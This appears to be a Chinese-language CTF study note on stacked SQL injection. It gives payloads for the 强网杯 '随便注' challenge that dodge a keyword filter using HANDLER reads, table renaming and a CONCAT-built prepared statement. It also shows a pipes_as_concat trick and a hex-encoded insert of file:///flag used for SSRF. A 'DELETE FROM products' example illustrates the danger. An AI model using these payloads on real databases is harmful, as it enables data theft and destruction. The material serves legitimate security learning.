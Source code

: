 强网杯随便注，禁用了preg_match("/select|update|delete|drop|insert|where|\./i",$inject);

```
1';show databases;--+
-1';show databases;#  让前面闭合，然后一起回显，注意有时后面要有; 回显库名supersqli
1'and extractvalue(1,concat(0x7e,(database())));--+
1';show tables;--+ 查看到表words和1919810931114514

看字段
-1';use supersqli;show columns from `1919810931114514`;#
1'; show columns from `words`;--+
1'; show columns from `1919810931114514`;--+

直接读表字段的值，知道1919810931114514表有flag字段
1'; handler
1'; handler `1919810931114514` open as `a`; handler `a` read next;#

利用原有的回显，把flag表改名过去。
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#


使用sql预编译
select flag from `1919810931114514`
变成
-1';
set @sql = CONCAT('sele','ct flag from  `1919810931114514`;'); 
prepare stmt from @sql;
EXECUTE stmt;#
```
>Handler语法:
handler语句，一行一行的浏览一个表中的数据
handler语句并不具备select语句的所有功能。
mysql专用的语句，并没有包含到SQL标准中。
HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。
1、HANDLER tbl_name OPEN
打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。
2、HANDLER tbl_name READ FIRST
获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
3、HANDLER tbl_name CLOSE
关闭打开的句柄。
4、HANDLER tbl_name READ index_name = value
通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览。

^
## **题型2**
```
post中：
query=1;show databases;
query=1;show columns from Flag;#

猜测语句
select $_GET['query'] || flag from flag

payload：
query=*,1
或
query=1;set sql_mode=pipes_as_concat;select 1
```

堆叠注入（Stacked Injection）是一种 SQL 注入攻击技术，其中攻击者利用应用程序对用户输入的不安全处理，将多个 SQL 查询或命令堆叠在一起，以达到执行多个恶意操作的目的。

通常情况下，SQL 注入攻击是通过在应用程序接受用户输入的地方注入恶意的 SQL 代码来实现的。但在某些情况下，应用程序可能会接受并处理多个用户输入，并将它们拼接成一个或多个 SQL 查询或命令。攻击者可以利用这种情况来构造堆叠注入攻击。



堆叠注入在mysql数据库中并不常见，常见于mssql数据库，mssql数据库是默认堆叠注入的。
```
如用户输入：1; DELETE FROM products
服务器端生成的sql语句为：Select * from products where productid=1;DELETE FROM products
当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。
危害巨大。
可以使用盲注，布尔，验证是否存在堆叠注入。
```
<https://kitescat.github.io/2023/05/06/SQL%E6%B3%A8%E5%85%A5%E4%B9%8B%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5/index.html>



^
## **堆叠注入配合SSRF**
通过堆叠注入插入值，指定10的地址为flag。
```
search.php?title=1';insert into link values(10,'a','file:///flag');


编码绕过，插入16进制编码，写入的内容还是正常字符。
search.php?title=1';insert into link values(10,'a',0x66696c653a2f2f2f7661722f7777772f68746d6c2f616c73636b6466792f636865636b2e706870);
```